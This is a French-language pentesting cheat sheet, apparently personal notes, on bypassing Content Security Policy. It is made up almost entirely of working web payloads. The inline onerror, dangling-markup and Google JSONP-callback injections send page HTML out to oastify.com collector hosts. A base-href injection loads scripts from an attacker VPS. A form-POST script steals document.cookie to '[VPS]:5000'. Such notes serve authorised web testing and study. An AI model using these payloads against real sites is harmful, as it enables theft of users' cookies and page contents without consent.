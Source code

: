 # Contournement de CSP 

Voir notamment : 

- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy



## Inline code

```
<img src=x onerror="document.location=`//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?c=${btoa(document.body.innerHTML)}`">
```



## Dangling Markup

### Firefox

```
http://site.com//page?param_vuln=<link rel="prefetch" href='https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com/page?param_vuln=<meta http-equiv="refresh" content='0;URL=https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?x=
```

### Chrome

```
http://site.com//page?param_vuln=<table background='//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com//page?param_vuln=<body background='http://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com/?
```



## JSONP 

Cas de figure d'un CSP autorisant des domaines de type Google, Twitter, Facebook, etc. 

Blocage de quelques fonctions comme eval() ou fetch() et nécessité de faire charger la page en entier avant l'exécution du payload.

Voir : 

- https://github.com/zigoo0/JSONBee

- https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt



```
curl -vvI

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)></script>

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>

http://site.com//page?param_vuln="><script defer src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>
```

## Directive "base-uri" manquante 

Si l'injection de balises est possible, mais que le CSP est bien configuré, mais que la directive "base-uri" n'est pas indiquée, on peut injecter une autre racine pour tous les scripts de la page qui sont spécifiés avec un chemin relatif : 

    <base href='http://[VPS]:8000/xss'>

En envoyant un lien à un autre utilisateur que l'on cible, il chargera tous les scripts de mon VPS au lieu des scripts du serveur web.

## Contournement de "connect-src 'none'"

Si la directive "connect-src" est à "none", on peut notamment passer par des requêtes POST avec un formulaire. 

Serveur Flask minimaliste permettant de recevoir du POST : https://github.com/TimotheMaammar/Python/blob/main/Serveur.py

Exemple de script externe fonctionnel pour exfiltrer un cookie de cette manière : 
    
        const form = document.createElement('form');
        form.action = 'http://[VPS]:5000/';
        form.method = 'POST';
        const input = document.createElement('input');
        input.type = 'hidden';
        input.name = 'x';
        input.value = document.cookie
        form.appendChild(input);
        document.body.appendChild(form);
        form.submit();


